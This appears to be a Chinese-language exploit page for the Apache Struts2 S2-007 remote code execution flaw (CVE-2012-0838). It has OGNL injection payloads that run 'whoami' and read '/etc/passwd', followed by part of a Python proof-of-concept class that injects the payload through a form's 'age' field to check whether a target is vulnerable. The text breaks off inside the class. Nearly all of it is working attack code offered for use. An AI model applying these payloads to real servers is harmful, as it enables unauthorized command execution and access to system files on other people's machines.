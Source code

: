 ### Payload

#### 执行命令

```java
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '
```

#### 读取文件

```java
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cat /etc/passwd').getInputStream())) + '
```

### POC

```python
#!/usr/bin/env python3

import random
import string
import requests

class S2_007_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-007漏洞,又名CVE-2012-0838漏洞',
            'description': 'Struts2 S2-007漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.2.3',
            'date': '2011-09-03',
            'type': 'RCE'
        }
        self.url = url
        self.capta = self.get_capta()
        self.check_payload = {
            'name': "1",
            'email': "7777777@qq.com",
            'age': '''\' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(''' + '\'' +'echo ' + self.capta + '\'' + ''').getInputStream())) + \''''
        }
    
    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):
        """
        检测是否存在漏洞

        :param:
```